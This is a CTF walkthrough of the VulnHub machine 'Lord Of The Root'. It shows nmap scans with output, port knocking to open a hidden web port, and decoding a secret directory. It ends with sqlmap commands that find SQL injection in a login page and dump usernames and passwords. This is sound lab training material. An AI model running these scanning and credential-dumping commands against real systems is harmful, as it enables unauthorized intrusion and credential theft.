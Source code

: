 ```yaml
---
layout: default
title : muzec - Lord Of The Root Writeup
---
```


Lord Of The Root a cool box on vulnhub which help others learn some basic CTF hacking strategies and some tools like Port Knocking,Sqlmap etc you can easily grab a copy here [Lord Of The Root Download Here](https://www.vulnhub.com/entry/lord-of-the-root-101,129/)

![image](https://user-images.githubusercontent.com/69868171/120629067-6dd53e80-c433-11eb-8bab-cf0138683786.png)


We always start with an nmap scan.....

```Nmap -sC -sV -Pn -oA nmap <Target-IP>```

```
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/lord]
└─$ nmap -sC -Pn -sV -oA nmap 172.16.139.200
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-03 02:59 EDT
Nmap scan report for 172.16.139.200
Host is up (0.00071s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3c:3d:e3:8e:35:f9:da:74:20:ef:aa:49:4a:1d:ed:dd (DSA)
|   2048 85:94:6c:87:c9:a8:35:0f:2c:db:bb:c1:3f:2a:50:c1 (RSA)
|   256 f3:cd:aa:1d:05:f2:1e:8c:61:87:25:b6:f4:34:45:37 (ECDSA)
|_  256 34:ec:16:dd:a7:cf:2a:86:45:ec:65:ea:05:43:89:21 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.21 seconds
```
We have only one port SSH that is strange let try checking the SSH for some clue.

![image](https://user-images.githubusercontent.com/69868171/120630276-ab869700-c434-11eb-8563-9493e40b3b4d.png)

Knock Friend To Enter the hint is clear seems we have to use port knocking on it `Easy as 1,2,3` yes the 1 2 3 that only what we have let try it.

Port knocking is a stealth method to externally open ports that, by default, the firewall keeps closed. It works by requiring connection attempts to a series of predefined closed ports. With a simple port knocking method, when the correct sequence of port "knocks" (connection attempts) is received, the firewall opens certain port(s) to allow a connection. 

### Port Knocking

Port Knocking command `knock 172.16.139.200 1 2 3` .

![image](https://user-images.githubusercontent.com/69868171/120631489-f228c100-c435-11eb-87e0-bfb5875570e0.png)

Now let scan it again with Nmap.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/lord]
└─$ nmap -sC -Pn -p- -sV -oA nmap 172.16.139.200
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-03 03:38 EDT
Nmap scan report for 172.16.139.200
Host is up (0.00060s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3c:3d:e3:8e:35:f9:da:74:20:ef:aa:49:4a:1d:ed:dd (DSA)
|   2048 85:94:6c:87:c9:a8:35:0f:2c:db:bb:c1:3f:2a:50:c1 (RSA)
|   256 f3:cd:aa:1d:05:f2:1e:8c:61:87:25:b6:f4:34:45:37 (ECDSA)
|_  256 34:ec:16:dd:a7:cf:2a:86:45:ec:65:ea:05:43:89:21 (ED25519)
1337/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 116.26 seconds
```
Boom we have a new port open `1337` HTTP cool the power of knocking is cool now time to hit the port on HTTP.

![image](https://user-images.githubusercontent.com/69868171/120632575-1b961c80-c437-11eb-8f5d-5f2aa80899ee.png)

A simple page checking source code nothing i try bursting directory nothing also strange right.

![image](https://user-images.githubusercontent.com/69868171/120632780-5435f600-c437-11eb-8bd6-48a502c9d735.png)

Running `nikto` also nothing.

![image](https://user-images.githubusercontent.com/69868171/120633015-a2e39000-c437-11eb-9bc4-b098f93da9df.png)

Some i decided to check the `robots.txt` always check it.

![image](https://user-images.githubusercontent.com/69868171/120633138-c9a1c680-c437-11eb-8b2c-1c1550aa410c.png)

Now i try checking the source code again now boom some secret text probably encoded.

![image](https://user-images.githubusercontent.com/69868171/120633255-efc76680-c437-11eb-8c69-ca68736495db.png)

Now let try decoding it to see what we have.

![image](https://user-images.githubusercontent.com/69868171/120633654-62384680-c438-11eb-9c20-14e347418b17.png)

A secret directory `/978345210/index.php` nice let hit it.

![image](https://user-images.githubusercontent.com/69868171/120633896-aa576900-c438-11eb-808a-684a0a9b5467.png)

Now we have a login page i have the habit of always testing for SQL injection first so i try the basic sql injection command now luck so let intercept it and use `sqlmap` .

![image](https://user-images.githubusercontent.com/69868171/120634991-ec34df00-c439-11eb-9bb9-97fd74fe2b1c.png)

Save in a txt file, sacnning with `sqlmap`

`sqlmap -r scan.txt --dbs --columns` command am using for the `sqlmap` .

![image](https://user-images.githubusercontent.com/69868171/120635930-028f6a80-c43b-11eb-8145-67e62f7a3ae7.png)

We are right it vulnerable to SQL injection let dump it.

`sqlmap -r scan.txt -D Webapp -T Users -C username,password --dump` dumping credentials seems cool.

![image](https://user-images.githubusercontent.com/69868171/120682732-cc69df00-c46a-11eb-96a8-42a19f020606.png)

